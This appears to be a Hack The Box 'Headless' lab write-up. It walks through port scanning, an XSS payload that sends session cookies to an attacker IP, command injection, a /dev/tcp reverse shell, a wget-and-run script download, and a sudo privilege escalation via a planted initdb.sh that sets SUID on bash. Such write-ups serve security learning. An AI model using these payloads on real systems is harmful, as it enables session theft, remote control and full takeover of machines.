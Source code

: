 ```yaml
---
title: HTB-Headless
draft: false
tags:
  - htb
  - linux
  - sudo
  - alwaysinstallelevated
---
```

![alt text](Headless.png)

## Information Gathering
### Rustscan

```bash
┌──(yoon㉿kali)-[~/Documents/htb/headless]
└─$ sudo rustscan --addresses 10.10.11.8 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍
<snip>
Host is up, received echo-reply ttl 63 (0.30s latency).
Scanned at 2024-05-15 00:28:08 EDT for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

## Enumeration
### HTTP - TCP 5000

![alt text](image.png)

/support

![alt text](image-1.png)

Directory Bruteforce 

`sudo feroxbuster -u http://10.10.11.8:5000 -C 404`

![alt text](image-2.png)

/dashboard

![alt text](image-3.png)

## XSS Cookie Stealing
https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e


![alt text](image-4.png)

```html
<script>var i=new Image(); i.src="http://10.10.14.14:8000/?cookie="+btoa(document.cookie);</script>
```

![alt text](image-5.png)

![alt text](image-6.png)

At this stage, we need to test the XSS payload across all parameters present in the POST request, including message, email, User-Agent, and others. After testing, we’ll discover that the same payload must be inserted into two parameters specifically: message and User-Agent.

`echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d`

![alt text](image-7.png)

is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0                                                                                        
![alt text](image-8.png)

![alt text](image-9.png)

## Command Execution

&& pwd

![alt text](image-10.png)

![alt text](image-11.png)


## Reverse shell

`bash -i >& /dev/tcp/10.10.14.14/1337 0>&1`

![alt text](image-12.png)

![alt text](image-13.png)


`wget http://10.10.14.14:8000/rev.sh && bash rev.sh`

![alt text](image-14.png)

![alt text](image-15.png)

## Privesc: dvir to root

`sudo -l`

![alt text](image-16.png)

/usr/bin/syscheck

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

```bash
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
```

![alt text](image-17.png)

![alt text](image-18.png)




## References


- https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e